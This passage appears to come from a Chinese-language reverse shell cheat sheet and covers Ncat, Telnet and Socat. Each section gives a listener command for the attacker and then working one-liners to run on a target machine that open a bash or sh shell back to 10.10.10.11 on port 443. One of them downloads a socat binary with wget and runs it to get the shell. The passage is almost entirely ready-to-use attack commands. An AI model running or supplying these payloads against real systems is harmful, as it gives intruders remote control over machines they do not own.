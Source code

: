```bash
```

## 4、使用Ncat反弹shell

首先在本地监听TCP协议443端口

```bash
nc -lvp 443
```
然后在靶机上执行如下命令：
```bash
ncat 10.10.10.11 443 -e /bin/bash
```
```bash
ncat --udp 10.10.10.11 443 -e /bin/bash
```

## 5、利用Telnet反弹shell
首先在本地监听TCP协议443端口

```bash
nc -lvp 443
```
然后在靶机上执行如下命令：
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet 10.10.10.11 443 0/tmp/p 2>&1
```
```bash
telnet 10.10.10.11 443 | /bin/bash | telnet 10.10.10.11 444
```
```bash
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet 10.10.10.11 443 > f
```
```bash
rm -f x; mknod x p && telnet 10.10.10.11 443 0<x | /bin/bash 1>x
```

## 6、使用Socat反弹shell
首先在本地监听TCP协议443端口

```bash
socat file:`tty`,raw,echo=0 TCP-L:443
```
然后在靶机上执行如下命令：
```bash
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.11:443
```
```bash
socat tcp-connect:10.10.10.11:443 exec:"bash -li",pty,stderr,setsid,sigint,sane
```
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.11:443
```
